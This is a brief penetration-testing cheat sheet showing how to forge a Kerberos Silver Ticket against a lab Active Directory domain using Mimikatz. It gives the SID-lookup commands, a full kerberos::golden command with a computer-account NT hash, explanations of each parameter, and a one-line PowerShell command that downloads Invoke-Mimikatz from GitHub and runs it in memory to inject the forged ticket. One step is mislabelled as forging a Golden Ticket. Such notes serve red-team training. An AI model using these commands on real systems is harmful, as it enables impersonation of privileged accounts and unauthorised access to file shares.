

Forge Silver Ticket
Github Mimikatz powershell: https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1
1. Retrieve the SID value of the domain
we need it to build the Silver Ticket
PS> get-ADdomain DANIELE.local
PS> wmic useraccount list brief #alternative

2. Forge the Golden Ticket
This command can be executed on any machine
PS> . .\Invoke-Mimikatz.ps1 #load powershell script
PS> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:DANIELE.local /target:TESTDC.DANIELE.local /sid:S-1-5-21-2492168702-2322743348-3414347950 /rc4:be680d0eb8d8c44bfefaaecb69515b9d /startoffset:0 /endin:600 /renewmax:10080 /service:cifs /ptt"'
PS> Invoke-Mimikatz -Command '"kerberos::list"'
kerberos::golden → Name of the module. There is not a Silver module!/user:Administrator → Username for which the TGT is generated, if we use a revoked/non-existing account is more suspicious /domain: → Domain FQDN/target: → Target server FQDN. This is formed by <hostname>.<domain>. For example testdc.daniele.local
/sid: → SID of the domain/service: → SPN of the Service for which we want create the Silver ticket. For example with “cifs” we can access to the Windows File Share of the Target machine/id: → Optional. It is the User ID or RID. Attention if we insert it it must coincide with the corespondent Service. example: In the example above for the Service CIFS on that machine its User ID is 1001
/rc4: → NT Hash(RC4) of the Computer account. Use /aes128 and /aes256 for using AES keys /startoffset:0 → Optional. When the Ticket is available in minutes(default is 0 that means "right now") . ▪ Use negative numbers for a ticket available from past
▪ Use large number for the future
/endin: → Optional. Ticket lifetime in minutes(default is 10 years). The default setting in Mimikatz is 10 hours==600 minutes/renewmax: → Optional. Ticket lifetime for renewal(default is 10 yeas). The default setting in Mimikatz is 7 days==10080 minutes/ptt or /ticket → It is not possible use both at the same time▪ /ptt inject the ticket in current Powershell process, no need to save the ticket on disk
▪ /ticket save the ticket to a file for later use
The one line Powershell for it is:
PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1");Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:DANIELE.local /target:TESTDC.DANIELE.local /sid:S-1-5-21-2492168702-2322743348-3414347950 /rc4:be680d0eb8d8c44bfefaaecb69515b9d /id:1001 /startoffset:0 /endin:600 /renewmax:10080 /service:cifs /ptt"';Invoke-Mimikatz -Command '"kerberos::list"'
Initially this PS script should give some error about some “variables that cannot be retrieved because not been set” but at the end should work